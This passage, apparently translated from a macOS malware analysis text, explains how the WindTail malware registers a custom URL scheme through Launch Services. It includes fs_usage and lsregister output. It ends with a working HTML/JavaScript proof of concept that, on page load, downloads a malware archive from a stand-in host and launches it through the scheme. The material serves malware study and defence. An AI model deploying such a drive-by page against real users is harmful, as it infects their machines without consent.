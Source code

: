   
特别注意其中包含CFBundleURLTypes数组，该数组存储WindTail支持的所有URL协议。在此数组内，我们找到描述URL协议的条目，其中CFBundleURLSchemes数组声明了受支持的协议：openurl2622007。  
  
当Safari自动解压应用后，macOS启动服务守护进程（lsd）将解析该应用，提取所有自定义URL协议，并将它们注册到启动服务数据库（该数据库com.apple.LaunchServices-231-v2.csstore存储应用与URL协议的映射关系）。可通过fs_usage等文件监视工具被动观察守护进程的文件操作：  

```
# fs_usage -w -f filesystem
open (R_____) ~/Downloads/Final_Presentation.app lsd
open (R_____) ~/Downloads/Final_Presentation.app/Contents/Info.plist lsd
PgIn[A] /private/var/folders/pw/sv96s36d0qgc_6jh45jqmrmr0000gn/0/
com.apple.LaunchServices-231-v2.csstore lsd
```

  
在此输出中可见macOS内置文件监视器（fs_usage）捕获到启动服务守护进程（lsd）正在打开并解析恶意应用程序，同时访问启动服务数据库（com.apple.LaunchServices-231-v2.csstore）。  
  
此后若通过lsregister命令打印数据库内容，可见新条目已将恶意应用Final_Presentation.app映射至自定义URL协议openurl2622007：  

```
% /System/Library/Frameworks/CoreServices.framework/Versions/A/Frameworks/
LaunchServices.framework/Versions/A/Support/lsregister -dump
BundleClass: kLSBundleClassApplication
...
path: ~/Downloads/Final_Presentation.app
name: usrnode
claimed schemes: openurl2622007:
-------------------------------------------
claim id: Local File (0xbee4)
localizedNames: &#34;LSDefaultLocalizedValue&#34; = &#34;Local File&#34;
rank: Default
bundle: usrnode (0x8c64)
flags: url-type (0000000000000040)
roles: Viewer (0000000000000002)
bindings: openurl2622007:
```

  
当操作系统将恶意软件注册为openurl2622007协议的处理程序后，便可由恶意网站直接启动该程序。  
  
下面的POC代码完整复现了WindTail在用户访问恶意网站时的感染流程：  

```
<html>
<body id=&#34;b&#34; onload=&#34;exploit();&#34;></body> (1)
<script type=&#34;text/javascript&#34;>
 function exploit () {
 var a = document.createElement(&#34;a&#34;);
 var x = document.getElementById(&#34;b&#34;);
 a.setAttribute(&#34;href&#34;,&#34;https://foo.com/malware.zip&#34;);
 a.setAttribute(&#34;download&#34;, &#34;Final_Presentation&#34;);
 x.appendChild(a);
 a.click();       (2)
 // 等待下载解压完成...
 location.replace(&#34;openurl2622007://&#34;);  (3)
 }
</script>
</html>
```
